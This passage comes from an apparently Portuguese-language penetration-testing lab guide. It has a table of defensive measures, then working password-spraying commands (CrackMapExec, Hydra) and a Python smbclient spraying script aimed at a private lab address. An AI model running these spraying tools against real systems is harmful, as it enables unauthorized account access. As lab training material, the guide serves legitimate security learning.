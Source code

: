 | Medida                      | Eficácia   | Complexidade | Custo    |
| --------------------------- | ---------- | ------------ | -------- |
| **Política de senha forte** | Alta       | Baixa        | Gratuito |
| **Account lockout**         | Média      | Baixa        | Gratuito |
| **Monitoramento SIEM**      | Muito Alta | Alta         | Alto     |
| **Segmentação de rede**     | Alta       | Média        | Médio    |
| **MFA**                     | Muito Alta | Média        | Médio    |

---

## 🔍 Técnicas Avançadas

### 🛠️ Ferramentas Alternativas

#### CrackMapExec (CME)

```bash
# Password spraying com CME
crackmapexec smb 192.168.56.101 -u smb_users.txt -p senhas_spray.txt

# Com output detalhado
crackmapexec smb 192.168.56.101 -u smb_users.txt -p senhas_spray.txt --verbose
```

#### Hydra

```bash
# Password spraying com Hydra
hydra -L smb_users.txt -P senhas_spray.txt smb://192.168.56.101
```

#### Script Python Personalizado

```python
#!/usr/bin/env python3
import subprocess
import time
import sys

def test_smb_login(host, user, password):
    cmd = f"smbclient -L //{host} -U {user}%{password} -N"
    try:
        result = subprocess.run(cmd.split(), capture_output=True, text=True, timeout=10)
        return "NT_STATUS_LOGON_FAILURE" not in result.stderr
    except:
        return False

def password_spray():
    host = "192.168.56.101"
    users = ["user", "msfadmin", "service", "postgres"]
    passwords = ["password", "123456", "Welcome123", "msfadmin"]

    print(f"[*] Starting password spray against {host}")

    for password in passwords:
        print(f"[*] Trying password: {password}")
        for user in users:
            if test_smb_login(host, user, password):
                print(f"[+] SUCCESS: {user}:{password}")
                return
            else:
                print(f"[-] Failed: {user}:{password}")
```